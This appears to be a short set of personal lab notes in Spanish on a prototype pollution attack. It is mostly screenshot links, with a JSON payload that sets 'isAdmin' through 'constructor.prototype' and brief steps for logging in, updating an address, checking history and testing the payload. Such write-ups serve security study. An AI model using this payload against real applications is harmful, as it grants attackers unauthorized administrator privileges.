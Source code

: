 ![[Pasted image 20230602172920.png]]

payload:
"constructor":{
	"prototype":{
		"isAdmin":true
		}
}

![[Pasted image 20230602174917.png]]


me logeo y hago la actualizacion de la direccion, luego me voy al history:

![[Pasted image 20230602174212.png]]

![[Pasted image 20230602174246.png]]

![[Pasted image 20230602174308.png]]

![[Pasted image 20230602174333.png]]

![[Pasted image 20230602174358.png]]

probando el payload:

![[Pasted image 20230602174456.png]]

![[Pasted image 20230602174515.png]]

copio la actualizacion del link y lo pego en el navegador:

![[Pasted image 20230602174544.png]]

![[Pasted image 20230602174618.png]]

![[Pasted image 20230602174636.png]]

![[Pasted image 20230602174651.png]]

![[Pasted image 20230602174708.png]]